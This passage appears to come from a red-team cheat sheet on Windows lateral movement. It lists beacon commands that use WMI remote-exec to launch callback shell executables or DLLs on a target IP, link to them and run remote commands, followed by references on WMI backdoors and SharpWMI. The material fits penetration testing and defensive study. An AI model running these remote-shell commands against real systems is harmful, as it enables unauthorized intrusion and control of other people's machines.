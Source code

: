 ### 7.1 - Remote-Exec

#### 7.1.1 - Spawn Callback Shell

```
beacon> remote-exec wmi <IP> C:\path\to\shell.exe

beacon> remote-exec wmi <IP> "rundll32 C:\path\to\shell.dll"

beacon> link <IP>
```

#### 7.1.2 - Execute Commands

`beacon> remote-exec wmi <IP> <cmdlets>`

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)

- [Installing Reverse Shell Backdoors on Windows Systems](https://ivanitlearning.wordpress.com/2019/06/09/installing-reverse-shell-backdoors-on-windows-systems/)

- [Lateral Movement Command Execution Win32_Server](https://www.sakshamdixit.com/lateral-movement-command-execution-win32_service/)

- [Backdoor with WMI](https://www.sakshamdixit.com/backdoor-with-wmi/)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)

- [SharpWMI](https://github.com/GhostPack/SharpWMI)